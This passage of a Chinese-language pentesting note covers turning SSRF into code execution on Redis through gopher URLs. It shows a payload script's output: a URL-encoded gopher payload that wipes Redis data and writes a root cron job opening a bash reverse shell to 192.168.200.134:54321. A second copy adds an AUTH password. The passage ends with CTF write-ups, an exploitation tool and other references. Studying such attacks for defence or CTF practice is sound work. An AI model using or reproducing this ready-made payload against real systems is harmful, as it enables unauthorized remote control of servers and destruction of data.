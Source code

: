 ### 漏洞利用

```bash
$ python2 payload_redis.py cron
Reverse IP > 192.168.200.134
Port > 54321
Centos/Ubuntu (Default Centos)
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2475%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20/bin/bash%20-c%20%27sh%20-i%20%3E%26%20/dev/tcp/192.168.200.134/54321%200%3E%261%27%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A
```

Redis 协议（RESP, REdis Serialization Protocol）

如果需要认证，需要手工添加`AUTH`，如下：

```
gopher://127.0.0.1:6379/_AUTH%20redis123%0D%0A%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2475%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20/bin/bash%20-c%20%27sh%20-i%20%3E%26%20/dev/tcp/192.168.200.134/54321%200%3E%261%27%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A
```

### 参考资料

- <https://www.hackthebox.com/blog/red-island-ca-ctf-2022-web-writeup>
- <https://github.com/jas502n/gitlab-SSRF-redis-RCE>
- <https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/>
- <https://github.com/tarunkant/Gopherus>
- <https://joner11234.github.io/article/9d7d2c7d.html>
- <https://infosecwriteups.com/exploiting-redis-through-ssrf-attack-be625682461b>

## 综合利用工具

<https://github.com/yuyan-sec/RedisEXP>

## 参考资料

- <https://hackviser.com/tactics/pentesting/services/redis>
- <https://github.com/n0b0dyCN/redis-rogue-server>
- <https://www.trendmicro.com/en_hk/research/20/d/exposed-redis-instances-abused-for-remote-code-execution-cryptocurrency-mining.html>
- <https://secybr.com/posts/redis-pentesting-best-practices/>
- <https://medium.com/@okanyildiz1994/mastering-redis-security-an-in-depth-guide-to-best-practices-and-configuration-strategies-df12271062be>
- <https://medium.com/@zoningxtr/ssrf-to-rce-via-redis-using-gopher-protocol-7409b1d97dcd>
- <https://antirez.com/news/96>
